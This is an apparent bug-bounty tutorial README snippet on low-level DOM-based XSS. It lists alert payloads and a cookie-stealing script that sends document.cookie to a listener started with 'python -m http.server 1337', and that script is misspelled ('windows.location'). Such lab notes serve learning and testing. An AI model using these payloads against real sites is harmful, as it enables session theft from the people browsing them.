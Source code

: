 # bug-bounty-tutorial
bug bounty tutorial

## 16.xss dom

### low
```
<script>alert('hacked')</script>
<script>alert(document.cookie)</script>

python -m http.server 1337
webup
<script>windows.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
```
